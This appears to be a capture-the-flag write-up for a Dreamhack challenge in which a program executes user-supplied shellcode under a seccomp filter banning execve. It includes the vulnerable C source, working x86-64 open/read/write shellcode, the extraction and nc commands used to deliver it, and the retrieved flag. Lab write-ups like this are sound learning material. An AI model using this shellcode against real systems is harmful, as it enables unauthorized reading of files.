 ### The challengee

Based on the source code of the program hosted on dreamhacks VM, the program allows you to execute shellcode as input, however there are two rules implemented using secure computing which prevents `execve` and `execveat` syscalls from being executed. The objective is to get the flag which they provided the full path `"/home/shell_basic/flag_name_is_loooooong"`.  My method is to directly read the contents from the flag.

```c
#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

After testing the code numerous times by compiling and running it locally, I can confirm I am able to read the contents of my flag. Initially, since I was very new to assembly, I realized things such as creating variables under `.data` and `.bss` are rendered useless when executing shellcode as the only code that will be executed is from the `.text` section.  So I had to re-implement my string and buffer.  I did this by manually writing the path and converting it to hex, then manually converting the values to little-endian (reverse the bytes).  Next, the buffer was done by subtracting `256` from the stack.

I learned how to error handle syscalls by comparing the return value stored in `rax` and determin if the value is signed (a negative value). If so, it will exit or close the file descriptor handle.

Another thing I learned.. when using the `open` syscall, when creating a handle to a given filename, if the filename is very long, of course you will need to segment your filename into 8 byte chunks, but also the size is important. I originally pushed each value directly to the stack, when debugging, the values are observd 4 bytes each. Likely nasm `things`.  A thanks to @jord and @szymex for helping me better understand that it is ultimately better to assign the values to x64 bit registers then pushing them.

```asm
section .text
global _start

_start:
       ; syscall(open, "/home/shell_basic/flag_name_is_loooooong")
        push 0x0
        mov r8, 0x676e6f6f6f6f6f6f
        push r8
        mov r8, 0x6c5f73695f656d61
        push r8
        mov r8, 0x6e5f67616c662f63
        push r8
        mov r8, 0x697361625f6c6c65
        push r8
        mov  r8, 0x68732f656d6f682f
        push r8
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 0x2
        syscall

        cmp rax, 0x0
        js _exit

        ; read(int fd, void buf[.count], size_t count);
        ; syscall(read, fd, buffer, bufferlen)
        mov rbx, rax ; copy fd
        xor rax, rax
        mov rdi, rbx ; fd
        sub rsp, 0x100
        mov rsi, rsp ; move buffer size to rsi
        mov rdx, 0x100 ; buffer length 256
        syscall

        cmp rax, 0x0
        jle .close_fd

        ; syscall(write, int fd, void buffer, size_t length)
        mov rdi, 0x1 ; stdout
        mov rdx, rax ; length
        mov rax, 0x1 ; write
        syscall

.close_fd:
        ; syscall(close, fd)
        mov rdi, rbx
        mov rax, 0x3
        syscall

_exit:
        ; syscall(exit, 0x0)
        xor rdi, rdi
        mov rax, 0x3c ; exit
        syscall
```

### Converting my object file into shellcode

I used objcopy to extract the `.text` section from the object file and output is as a bin file.
```
objcopy --dump-section .text=x.bin x.o
```

### Retrieving the flag

```
nc host3.dreamhack.games 22761 < x.bin
shellcode: DH{ca562d7cf1db6c55cb11c4ec350a3c0b}
```
